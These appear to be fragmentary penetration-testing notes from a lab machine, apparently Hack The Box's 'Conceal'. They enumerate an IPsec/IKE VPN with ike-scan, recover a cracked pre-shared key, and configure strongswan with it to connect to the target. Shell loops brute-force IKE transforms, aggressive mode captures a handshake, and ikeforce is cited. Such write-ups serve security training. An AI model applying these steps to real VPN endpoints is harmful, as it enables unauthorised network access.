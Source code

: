 https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting
```
ike-scan -M $TARGET
```
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
Check with crackstation:
`dudecake1!`
```
sudo apt install strongswan -y
```
```
echo '10.129.224.37 : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```
```
sudo mousepad /etc/ipsec.conf
```
```
conn Conceal
	type=transport
	keyexchange=ikev1
	right=10.129.224.37
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```
```
sudo ipsec stop
```
```
sudo ipsec start --nofork
```
```
nmap -p- -sT 10.129.224.37
```
---
```
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```
And then brute-force each one using ike-scan (this can take several minutes):
```
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```
If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:
```
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```
Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py
ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce
```
./ikeforce.py <IP> # No parameters are required for scan -h for additional help
```
